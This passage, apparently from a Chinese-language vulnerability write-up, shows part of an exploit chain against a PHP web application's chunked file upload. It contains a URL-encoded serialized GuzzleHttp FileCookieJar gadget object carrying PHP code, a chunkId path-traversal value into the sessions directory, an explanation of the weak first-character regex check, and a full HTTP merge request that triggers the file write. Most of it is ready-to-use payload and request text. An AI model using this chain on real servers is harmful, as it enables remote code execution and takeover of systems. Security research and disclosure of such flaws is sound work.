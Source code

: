```
{{urldec(O%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A1%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A9%3A%7Bs%3A4%3A%22Name%22%3Bs%3A3%3A%22aaa%22%3Bs%3A5%3A%22Value%22%3Bs%3A19%3A%22%5C%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Bs%3A6%3A%22Domain%22%3Bs%3A10%3A%22testDomain%22%3Bs%3A4%3A%22Path%22%3Bs%3A1%3A%22%2F%22%3Bs%3A7%3A%22Max-Age%22%3BN%3Bs%3A7%3A%22Expires%22%3BN%3Bs%3A6%3A%22Secure%22%3Bb%3A0%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A8%3A%22HttpOnly%22%3Bb%3A0%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3Bb%3A0%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A9%3A%22ttest.php%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7D)}}
------WebKitFormBoundaryGm1kPOLTg3kmc3MF--
返回包 body 如下
{
  &#34;code&#34;: 200,
  &#34;msg&#34;: &#34;分片上传成功&#34;,
  &#34;url&#34;: &#34;&#34;,
  &#34;chunkId&#34;: &#34;1/../../sessions/session_tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL&#34;,
  &#34;index&#34;: 1
}
```

  
这里的关键是 **chunkId**  
 参数值为：  
  
 
```
1/../../sessions/session_tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL
```

  
，这构成了一个目录穿越路径，指向会话文件。  
  
 上传的内容是一个经过序列化的 **GuzzleHttp\Cookie\FileCookieJar**  
 对象，包含了要执行的 PHP 代码。由于正则表达式 
```
/^[0-9\-]/
```

  
 只检查第一个字符，而 
```
1
```

  
 符合这个要求，所以这个请求能够通过验证。  
  
### 步骤三：发送合并请求，触发文件写入  

```
POST /index/user/upload?action=marge&chunkId=-/../../sessions/session_tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL&fileExt=jpg&mimeType=image/jpeg&chunkCount=2&fileSize=500&source=1 HTTP/1.1
Host: 192.168.3.3:8787
Cookie: SESSION_ID=bbd4d396f614da41a0cb74da972ff844; uid=2; token=250e4ef8162d56748202c5ad95f1058c; nickname=go0p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://127.0.0.1:8093
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGm1kPOLTg3kmc3MF
Content-Length: 176
------WebKitFormBoundaryGm1kPOLTg3kmc3MF
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;1.&#34;
Content-Type: image/jpeg
------WebKitFormBoundaryGm1kPOLTg3kmc3MF--
```
